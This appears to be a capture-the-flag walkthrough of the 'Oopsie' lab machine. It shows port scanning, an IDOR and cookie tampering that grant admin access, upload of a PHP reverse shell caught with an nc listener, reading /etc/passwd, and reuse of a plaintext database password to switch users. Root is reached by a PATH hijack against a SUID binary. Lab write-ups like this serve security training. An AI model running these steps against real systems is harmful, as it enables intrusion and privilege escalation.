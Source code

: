![oopsie.jpg](/assets/oopsie.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.87.40
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.107.26
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


3. View the web page
![oopsie-web.PNG](/assets/oopsie-web.PNG)


4. With **BurpSuite** view petitions of web page and look anothers directorys

![oopsie-burp.PNG](/assets/oopsie-burp.PNG)


5. Access to new directory
![oopsie-login.PNG](/assets/oopsie-login.PNG)


6. Access as **Guest** and in **clients** look the url
![oopsie-guest.PNG](/assets/oopsie-guest.PNG)


7. We can edit the **id**, if you put **1** you can access as **administrator**.
![oopsie-admin.PNG](/assets/oopsie-admin.PNG)


8. For keep session as **administrator** edit the cookie
![oopsie-cookie.PNG](/assets/oopsie-cookie.PNG)
> With this you can keep session in any part of web page.

9. In **uploads** we load a php reverse shell
    
![oopsie-upload.PNG](/assets/oopsie-upload.PNG)

First, go to `/usr/share/webshells/php/php-reverse-shell.php`copy this file and put in directory's machine.
Next, edit the file and put in `$IP` the IP address of tun0 and in `$PORT` put 4444

![oopsie-php.PNG](/assets/oopsie-php.PNG)

Finally, upload the file.


10.  Use **gobuster** to discover others directories to access
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| gobuster dir -u http://10.129.107.26 -w /usr/share/dirb/wordlists/small.txt 
```

**Output**
```bash
/css                  (Status: 301) [Size: 312] [--> http://10.129.107.26/css/]
/images               (Status: 301) [Size: 315] [--> http://10.129.107.26/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.107.26/js/]    
/uploads              (Status: 301) [Size: 316] [--> http://10.129.107.26/uploads/]
```

11. With **nc** listen on port 4444.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| nc -lvnp 4444 
```

12. Execute the php-reverse-shell.php in url

![oopsie-reverse-url.PNG](/assets/oopsie-reverse-url.PNG)

13. Run this
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

14. Look `/etc/passwd`
```bash
www-data@oopsie:/$ cat /etc/passwd
```

**Output**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
> Find important information

15. Acces to robert's directory and find a **user flag**

```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

16. Go to `www-data@oopsie:/$ cd /var/www/html`, (In this folder you found a files of web page)
```bash
www-data@oopsie:/var/www/html$ dir
dir
cdn-cgi  css  fonts  images  index.php  js  themes  uploads
```

17. Enter in `cdn-cgi`, next in `login` and cat a **db.php** file.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

18. With the credentials loggin how robert user
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!
```

19. Search more information of **robert**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

20. Try to access a **bugtracker** group
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: /bin/bash
/bin/bash
---------------

cat: /root/reports//bin/bash: No such file or directory
```
For login it execute **cat**, but, if we change the functioning of cat can spawn a `/bin/bash`

21. Change the functionning of **cat**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ cd /tmp 
cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```
Whit this change a cat with other environment variable

22. Try to login in **bugtracker** group and in **Provide Bug ID** put any number
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------
```

**Output**
```bash
root@oopsie:/tmp#
```

23. Now are root
```bash
root@oopsie:/# cd root
cd root
root@oopsie:/root# dir
dir
reports  root.txt
root@oopsie:/root# cat root.txt
cat root.txt
root@oopsie:/root# head root.txt
head root.txt
af13b0bee69f8a877c3faf667f7beacf
```

+ **cat** not read files because alter the functioning, also you can use **head** or **tail**.
